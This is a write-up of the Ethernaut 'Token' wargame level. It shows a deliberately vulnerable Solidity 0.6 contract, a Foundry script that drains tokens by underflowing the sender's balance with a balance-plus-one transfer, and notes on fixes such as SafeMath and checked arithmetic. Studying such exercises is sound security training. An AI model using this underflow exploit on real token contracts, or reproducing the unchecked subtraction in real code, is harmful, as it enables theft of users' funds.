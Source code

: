 # Level 5 - Token ⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/5" %}

### Level Setup

{% hint style="info" %}
The goal of this level is for you to hack the basic token contract below.

You are given 20 tokens to start with and you will beat the level if you somehow manage to get your hands on any additional tokens. Preferably a very large amount of tokens.

&#x20; Things that might help:

* What is an odometer?
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Token.sol" %}

{% code lineNumbers="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```
{% endcode %}

### Exploit

The exploit is due to unsafe math in older versions of Solidity. The balance can underflow and cause a huge amount of tokens to be transferred.

1. Sending just 1 more token than the user balance causes the value to underflow.&#x20;

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-5

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-5

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/main/script/Level5.s.sol" %}

{% code title="script/Level5.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.18;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

interface IToken {
    function transfer(address _to, uint256 _value) external returns (bool);
    function balanceOf(address _owner) external view returns (uint256 balance);
}

// ================================================================
// │                         LEVEL 5 - TOKEN                      │
// ================================================================
contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IToken targetContract = IToken(targetContractAddress);
        uint256 userStartingBalance = targetContract.balanceOf(msg.sender);

        vm.startBroadcast();
        targetContract.transfer(address(0), userStartingBalance + 1);
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

2. Submit instance... 🥳

### Completion Message

{% hint style="info" %}
**NOT NEEDED IN SOLIDITY 0.8.0 AND HIGHER**

Overflows are very common in solidity and must be checked for with control statements such as:

```solidity
if(a + c > a) {
  a = a + c;
}
```

An easier alternative is to use OpenZeppelin's SafeMath library that automatically checks for overflows in all the mathematical operators. The resulting code looks like this:

```solidity
a = a.add(c);
```

If there is an overflow, the code will revert.
{% endhint %}

### Notes

* Integer [overflow/underflow](https://docs.soliditylang.org/en/v0.6.0/security-considerations.html#two-s-complement-underflows-overflows) in Solidity `v0.6.0`
* This could easily be fixed using a different check instead of comparing to zero.

```solidity
if (balances[msg.sender] < _value) revert Token__NotEnoughTokens();
```

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_5_Token.md" %}
